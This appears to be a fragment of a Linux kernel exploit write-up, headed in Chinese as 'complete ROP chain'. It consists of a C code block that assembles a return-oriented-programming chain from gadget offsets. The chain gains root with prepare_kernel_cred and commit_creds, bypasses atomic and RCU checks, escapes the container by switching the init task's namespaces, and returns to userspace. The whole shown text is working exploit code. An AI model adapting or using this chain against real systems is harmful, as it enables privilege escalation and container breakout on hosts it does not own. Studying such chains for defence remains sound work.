 ‍

完整的 ROP 链

```c
    rop = (uint64_t *)&data[0x88];

    // oops_in_progress = 1 (Bypass schedule while atomic)
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 1;                          // 1
    rop[idx++] = kbase + 0xffffffff810fb7dd; // pop rsi ; ret
    rop[idx++] = kbase + 0xffffffff8419f478; // oops_in_progress
    rop[idx++] = kbase + 0xffffffff81246359; // mov qword ptr [rsi], rdi ; jmp 0xffffffff82404440 (retpoline)

    // creds = prepare_kernel_cred(0)
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff811139d0; // prepare_kernel_cred

    // commit_creds(creds)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8204933b; // mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = kbase + 0xffffffff811136f0; // commit_creds

    // current = find_task_by_vpid(getpid())
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = getpid();                   // pid
    rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff810fb7dd; // pop rsi ; ret
    rop[idx++] = 0x46c;                      // offsetof(struct task_struct, rcu_read_lock_nesting)
    rop[idx++] = kbase + 0xffffffff8107befa; // add rax, rsi ; jmp 0xffffffff82404440 (retpoline)

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8167104b; // mov qword ptr [rax], rcx ; jmp 0xffffffff82404440 (retpoline)

    // task = find_task_by_vpid(1)
    rop[idx++] = kbase + 0xffffffff811481f3; // pop rdi ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = 1;                          // pid
    rop[idx++] = kbase + 0xffffffff8110a0d0; // find_task_by_vpid

    // switch_task_namespaces(task, init_nsproxy)
    rop[idx++] = kbase + 0xffffffff811e3633; // pop rcx ; ret
    rop[idx++] = 0;                          // 0
    rop[idx++] = kbase + 0xffffffff8204933b; // mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; jmp 0xffffffff82404440 (retpoline)
    rop[idx++] = kbase + 0xffffffff810fb7dd; // pop rsi ; ret
    rop[idx++] = kbase + 0xffffffff83661680; // init_nsproxy (from parse_mount_options)
    rop[idx++] = kbase + 0xffffffff81111c80; // switch_task_namespaces

    // Back to userspace
    rop[idx++] = kbase + 0xffffffff822010c6; // swapgs_restore_regs_and_return_to_usermode + 54
    rop[idx++] = 0;
    rop[idx++] = 0;
    rop[idx++] = (uint64_t)&getroot;
    rop[idx++] = usr_cs;
    rop[idx++] = usr_rflags;
    rop[idx++] = (uint64_t)(stack + 0x80000);
```